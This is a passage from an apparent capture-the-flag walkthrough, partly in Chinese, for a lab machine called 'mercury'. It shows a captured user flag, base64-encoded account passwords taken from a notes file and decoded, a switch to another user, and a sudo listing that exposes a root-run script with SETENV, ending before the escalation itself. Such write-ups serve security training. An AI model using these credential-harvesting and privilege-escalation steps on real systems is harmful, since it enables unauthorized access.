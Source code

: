 
### user_flag.txt

```console
[user_flag_8339915c9a454657bd60ee58776f4ccd]
```

### Shell as linuxmaster

```
webmaster@mercury:~/mercury_proj$ cat notes.txt 
Project accounts (both restricted):

webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

有一组貌似base64的凭据信息

```
echo bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==|base64 -d
mercurymeandiameteris4880km
```

尝试切换用户


```console
webmaster@mercury:~/mercury_proj$ su linuxmaster
Password: 
linuxmaster@mercury:/home/webmaster/mercury_proj$ cd
linuxmaster@mercury:~$ ls
linuxmaster@mercury:~$ id
uid=1002(linuxmaster) gid=1002(linuxmaster) groups=1002(linuxmaster),1003(viewsyslog)
```
![image](../assets/post_img/Snipaste_2024-04-23_22-55-45.png)

## Shell as Root

### sudo -l

```bash
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```
